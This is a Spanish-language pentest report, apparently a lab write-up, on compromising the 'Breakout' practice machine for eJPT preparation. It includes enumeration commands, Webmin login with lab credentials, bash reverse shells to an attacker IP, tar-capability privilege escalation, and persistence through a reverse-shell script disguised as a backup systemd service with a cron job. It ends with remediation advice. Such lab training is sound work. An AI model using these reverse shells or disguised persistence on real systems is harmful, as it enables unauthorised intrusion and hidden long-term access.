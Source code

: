 # Informe de Pentesting - Breakout

**Máquina:** Breakout
**Autor:** Klauss Reyes Granados
**Certificación:** Preparación eJPT

---

## 🎯 Objetivo

Evaluar y comprometer la máquina "Breakout" replicando un ataque de caja negra con foco en vulnerabilidades web y servicios remotos.

---

## 🛰️ Recolección de Información

* Descubrimiento IP:

  ```bash
  ifconfig
  arp-scan -I eth1 192.1.1.0/24
  ```

* Escaneo de puertos:

  ```bash
  nmap -p- -sV -sS -Pn -n 192.1.1.7
  ```

---

## 🔎 Enumeración de Servicios

### Puerto 80 - HTTP

* Página por defecto Apache en Debian.
* En el código fuente se encuentra una cadena codificada en Brainfuck:

  * Descifrada usando [copy.sh](https://copy.sh/brainfuck/) → `.2uqPEfj3D<P'a-3`

### Puerto 10000 - Webmin (HTTPS)

```bash
dirb https://192.1.1.7:10000
```

### Puerto 20000 - Segundo Webmin (HTTPS)

```bash
dirb https://192.1.1.7:20000
```

### Puerto 139/445 - Samba

* Enumeración con:

  ```bash
  smbmap -H 192.1.1.7
  rpcclient -U "" -N 192.1.1.7
  enum4linux 192.1.1.7
  ```
* Se detecta usuario: `cyber`

---

## 💥 Explotación

* Se accede a Webmin en el puerto 20000 con:

  * Usuario: `cyber`
  * Contraseña descifrada desde el código Brainfuck

* Uso del terminal web para ejecutar reverse shell:

```bash
bash -i >& /dev/tcp/192.1.1.4/8000 0>&1
```

* Conexión exitosa usando `nc -nlvp 8000`

---

## ⬆️ Escalado de Privilegios

### Vía capacidades en binario `tar`

```bash
getcap -r / 2>/dev/null
```

* Lectura de archivo root restringido:

```bash
tar xf /var/backups/.old_pass.bak --to-command='cat'
```

* Se obtiene contraseña: `Ts&4&YurgtRX(=~h`
* Acceso como `root`:

```bash
su root
```

---

## 🧠 Post-Explotación - Persistencia

* Script Bash:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.1.1.4/21000 0>&1
```

* Servicio:

```ini
[Unit]
Description=Servicio de gestión de backups

[Service]
ExecStart=/usr/bin/backups.sh

[Install]
WantedBy=multi-user.target
```

* Cron job:

```bash
* * * * * systemctl start Backup.service
```

---

## 🚨 Vulnerabilidades Detectadas

| ID | Vulnerabilidad                         | Nivel   | Recomendación                                                |
| -- | -------------------------------------- | ------- | ------------------------------------------------------------ |
| 1  | Contraseña visible en HTML (brainfuck) | Alto    | No incluir datos sensibles en el código fuente               |
| 2  | Acceso anónimo a Samba                 | Medio   | Restringir acceso con autenticación                          |
| 3  | Ejecución de comandos vía Webmin       | Alto    | Actualizar y limitar Webmin                                  |
| 4  | Password root expuesta en backups      | Crítico | Eliminar ficheros antiguos y revisar capacidades de binarios |

---

## ✅ Conclusiones

* La intrusión fue posible gracias a la mala práctica de dejar datos sensibles en el HTML.
* El abuso de capacidades en binarios como `tar` permitió escalar hasta root.
* Se estableció persistencia con servicios y cronjobs personalizados.

> Informe elaborado como parte de la práctica intensiva para el eJPT.

